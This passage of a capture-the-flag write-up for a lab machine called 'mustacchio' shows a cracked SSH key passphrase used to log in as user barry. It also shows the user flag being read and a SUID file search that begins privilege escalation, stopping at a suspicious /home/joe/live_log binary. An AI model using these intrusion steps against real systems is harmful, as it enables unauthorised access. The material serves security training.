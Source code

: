 ```bash
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
```

Successfully cracked the key, set the correct permissions for the SSH key, and attempted to log in using it in an SSH connection. However, we were prompted for a passphrase, so entered the cracked password
```bash
┌──(root㉿kali)-[~]
└─# chmod 600 barry                
                                                                                                                            
┌──(root㉿kali)-[~]
└─# ssh -i barry barry@10.10.23.241
Enter passphrase for key 'barry': 
Welcome to Ubuntu 16.04.7 LTS (GNU/Linux 4.4.0-210-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

34 packages can be updated.
16 of these updates are security updates.
To see these additional updates run: apt list --upgradable



The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.

barry@mustacchio:~$ id
uid=1003(barry) gid=1003(barry) groups=1003(barry)
barry@mustacchio:~$ cat user.txt 
6******************************1
```

Success! Foothold obtained on the machine and can grab user flag, now it’s time to proceed with privilege escalation.

## Privilege escalation

We began by checking for SUID files on the system for current user

```bash
barry@mustacchio:~$ find / -type f -perm -u=s 2>/dev/null
/usr/lib/x86_64-linux-gnu/lxc/lxc-user-nic
/usr/lib/eject/dmcrypt-get-device
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/lib/snapd/snap-confine
/usr/lib/openssh/ssh-keysign
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/bin/passwd
/usr/bin/pkexec
/usr/bin/chfn
/usr/bin/newgrp
/usr/bin/at
/usr/bin/chsh
/usr/bin/newgidmap
/usr/bin/sudo
/usr/bin/newuidmap
/usr/bin/gpasswd
/home/joe/live_log     <--------------------------
```